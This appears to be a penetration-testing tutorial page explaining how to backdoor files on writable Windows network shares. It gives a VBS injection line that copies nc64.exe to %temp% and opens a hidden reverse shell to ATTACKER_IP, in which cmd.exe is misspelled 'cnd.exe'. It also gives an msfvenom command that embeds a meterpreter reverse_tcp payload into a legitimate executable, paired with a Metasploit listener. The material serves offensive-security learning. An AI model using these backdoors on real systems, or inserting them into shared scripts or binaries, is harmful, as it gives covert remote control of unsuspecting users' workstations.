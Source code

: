 # Abusing writable shares

## Resources

1. `CreateObject` function

{% embed url="https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/createobject-function" %}

2. `Wscript.Shell` object

{% embed url="https://ss64.com/vb/shell.html" %}

2. `Run` method

{% embed url="https://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp" %}

{% embed url="https://ss64.com/vb/run.html" %}

3. `copy`&#x20;

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/copy" %}

4. `msfvenom`

{% embed url="https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/vulnerability-and-exploitation/msfvenom" %}

## Backdoor mechanism

It is quite common to find network shares that hosts executable or scripts created by the administrator, that users can use to perform daily tasks. This is useful  for users since they can execute the shared resource without copying or installing it.&#x20;

Whenever a user opens the shortcut on their workstation, the executable or script will be copied from the server to the local `%temp%` folder, where it will be executed. Thus, any payload will run in the context of the final user's workstation and logged-in user account.

If the share is writable by anyone (or at least our compromised account), we can abuse this to create a backdoor.

### (1) Backdoor via `.vbs` scripts

Given that we have found a VBS (`.vbs` ) script running hosted on the share, we can inject a malicious code into the found script, to provide ourselves with a backdoor.

**Step 1**

First, we have to upload a binary (such as `nc64.exe` ) to the share. This will aid us in creating the backdoor. This can be achieved using [smbclient](https://jarrettgxz-sec.gitbook.io/networking-concepts/networking-tools/miscellaneous/smbclient).

**Step 2**

Next, we can inject the malicious commands in the existing script.

> The inserted command assumes that the writable share is hosted at `\\TARGET_IP\writable_share` .

{% code overflow="wrap" %}
```visual-basic
CreateObject("WScript.Shell").Run "cmd.exe /c copy /y \\TARGET_IP\writable_share\nc64.exe %temp% & %temp%\nc64.exe -e cnd.exe ATTACKER_IP PORT", 0, True
```
{% endcode %}

The following outlines the main steps:

**(1)** Create a new [Wscript.Shell object](https://ss64.com/vb/shell.html) and run an external command using the [`Run`](https://ss64.com/vb/run.html)  method

* the _Wscript.Shell_ object provides access to the OS shell methods

According to this [page](https://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp), the following describes the last 2 values provided to the `Run` method. In our example, the values are `0, True` .

* `intWindowStyle`

> Optional. Integer value indicating the appearance of the program's window. Note that not all programs make use of this information.

value of `0` : "Hides the window and activates another window."

* `bWaitOnReturn`

> Optional. Boolean value indicating whether the script should wait for the program to finish executing before continuing to the next statement in your script.&#x20;

If set to `True` , script execution halts until the program finishes.

**(2)** Execute commands using `cmd.exe` , to call the `copy` command to copy the uploaded `nc64.exe` binary (uploaded to share) to the `%temp%` directory

* the `/y` flag provided to `copy` is used to:

> &#x20;Suppress prompting to confirm that you want to overwrite an existing destination file.

**(3)** Execute a reverse shell that provides us a backdoor to the system

**Step 3**

Finally, we have to start a listener using the `exploit/multi/handler` from Metasploit. Now, we will gain a remote shell on a user's desktop whenever someone executes this script.

### (2) Backdoor via `.exe` files

Given that we have found a Windows binary such as an `.exe` file, we can download it from the share and use `msfvenom` to inject a backdoor functionality. The result is a binary that still fulfils its original purpose, but execute an additional payload silently.

**Step 1**

We can use the downloaded binary as a template to create a new malicious binary (suppose the binary is named `vuln.exe`):

{% code overflow="wrap" %}
```sh
$ msfvenom --platform windows -x vuln.exe -k -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -b "\x00" -f exe -o mal_vuln.exe
```
{% endcode %}

**Step 2**

Finally, we have to start a listener using the `exploit/multi/handler` from Metasploit. Now, whenever someone executes this script, we will gain a remote shell on that user's desktop. Now, we will gain a remote shell on a user's desktop whenever someone executes the binary.

